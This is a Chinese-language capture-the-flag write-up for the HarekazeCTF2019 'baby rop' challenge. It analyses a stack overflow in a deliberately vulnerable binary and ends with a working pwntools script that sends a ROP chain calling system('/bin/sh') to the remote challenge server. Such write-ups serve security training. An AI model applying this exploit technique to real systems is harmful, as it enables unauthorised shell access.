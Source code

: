 ```yaml
---
author: 
  name: Zephyr
title: HarekazeCTF2019 baby rop
date: 2022-3-22 10:20:03
permalink: /pages/2e1547494524d187
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# HarekazeCTF2019 baby rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/HarekazeCTF2019_baby_rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-10h]

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", &v4);
  printf("Welcome to the Pwn World, %s!\n", &v4);
  return 0;
}
```

函数表如下

![HarekazeCTF2019_baby_rop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/HarekazeCTF2019_baby_rop_1.png)

Gadget

```shell
ROPgadget --binary babyrop --string "/bin/sh\x00"
Strings information
============================================================
0x0000000000601048 : /bin/sh
```

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - plt表内有system
   - 存在/bin/sh字符串
   - No PIE
   - NX 保护
1. 思路：
   - 可栈溢出，有system，有/bin/sh，构造rop链布好栈帧输入即可

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/HarekazeCTF2019_baby_rop/babyrop'
io = remote('node4.buuoj.cn', 26190)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x10+8
system_addr = elf.plt['system']
bin_sh = 0x601048
pop_rdi_ret = 0x400683
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system_addr])
io.recv()
io.sendline(payload)
io.interactive()
```